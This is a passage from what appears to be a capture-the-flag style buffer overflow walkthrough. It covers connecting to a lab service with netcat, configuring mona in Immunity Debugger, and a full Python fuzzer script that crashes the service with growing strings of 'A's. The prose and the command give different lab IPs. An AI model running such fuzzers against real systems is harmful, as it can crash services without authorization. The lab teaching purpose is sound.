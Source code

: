 On your Kali box, connect to port 1337 on 10.10.200.9 using netcat:

`nc 10.10.199.216 1337`

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:  

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.199.216"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.
